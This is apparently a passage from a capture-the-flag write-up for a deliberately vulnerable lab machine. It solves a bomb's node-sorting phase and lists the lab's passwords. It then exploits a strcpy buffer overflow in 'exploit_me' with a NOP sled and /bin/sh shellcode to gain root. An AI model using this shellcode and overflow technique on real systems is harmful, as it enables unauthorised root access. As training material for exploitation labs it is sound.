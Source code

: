 gdb-peda$ x/1wd 0x804b26c-0x3c
0x804b230 <node6>:	432			<= 6


```

our digit correspond to the order of the nodes, 
at the end of the fct, the program check if the node are sorted.
so we have to sort our value, 

```
1 = 253   2 = 725   3 = 301   4 = 997   5 = 212   6 = 432

997 = 4  725 = 2    432 = 6   301 = 3   253 = 1   212 = 5   
```

input needed : 
``` 4 2 6 3 1 5  ```

### put all the phases together :
```
Publicspeakingisveryeasy.126241207201b2149opekmq426135
```

## Thor

here is a file named turtule, 
this is actually a map to drow that give us : 
``` SLASH ```

we just have to encypt it, after a few try we found that md5 is a match for zaz password.
```
646da671ca01bb5d84dbb5fb2238dc8e
```

## ZaZ
at this level it's a binary file to exploit.
nothing complicated here, it's just a buffer overflow 
we can see that cause of the strcpy 
```
(gdb) disas main
0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
```
the program crash if we give him 140 or more char. 
```
$ ./exploit_me $(python -c 'print("A" * 140)')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

We just have to load a shellcode in the env,
```
export GG=`python -c 'print "\x90" * 3000 + "\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68"'`
```
`'print "\x90" * 3000 ` allow us to call an address in the middle of the NOPS , after that the program will go through all the nops and arrive on our shellcode.
and then call the shellcode: 
```
./exploit_me `python -c 'print "A"* 140 + "\xff\xff\xd4\xed"[::-1]'`
```
`"\xff\xff\xd4\xed"` is and  address in the middle of the NOPS getting with gdb.

Run the little script, and We #are ##Root ### !